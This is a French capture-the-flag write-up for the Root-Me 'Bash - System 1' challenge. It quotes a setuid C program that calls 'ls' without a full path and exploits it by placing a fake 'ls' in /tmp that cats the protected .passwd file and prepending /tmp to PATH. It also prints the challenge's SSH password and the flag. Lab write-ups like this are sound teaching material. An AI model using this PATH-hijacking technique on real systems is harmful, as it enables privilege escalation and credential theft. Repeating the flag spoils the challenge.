

#  	Bash - System 1 

Lien vers le challenge : [Challenge](https://www.root-me.org/fr/Challenges/App-Script/Bash-System-1)

## Énoncé : 



## Procédure : 
1. On se connecte en ssh : 

password : app-script-ch11


2. On se balade sur la session avec un ```ls``` on découvre plusieurs fichier dans un executable : On l'execute 

On tombe sur un chemin on en déduit que l'on doit lire ce fichier avec de récuperer le flag.
Il y le code de ch11.c : 
```c
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>

int main(void)
{
    setreuid(geteuid(), geteuid());
    system("ls /challenge/app-script/ch11/.passwd");
    return 0;
}
```

3. Phase de test :  Tout simplement, on essaye de lire le fichier ```cat /challenge/app-script/ch11/.passwd```


4. Phase d'action : On va essayer de créer un faux binaire un fichier "ls" qui va remplacer le ls du code de ch11.c


```shell
cd /tmp
# Créer un faux fichier "ls" qui va lire le mot de passe
echo "/bin/cat /challenge/app-script/ch11/.passwd" > ls
chmod +x ls
# Modifier le PATH pour que le système cherche ici en premier
export PATH=/tmp:$PATH
# Exécuter le programme vulnérable
/challenge/app-script/ch11/ch11
```


## Résultat :
Après avoir executés les commandes, on tombe sur le flag : 


## Flag : 

Le Flag est : *!oPe96a/.s8d5*

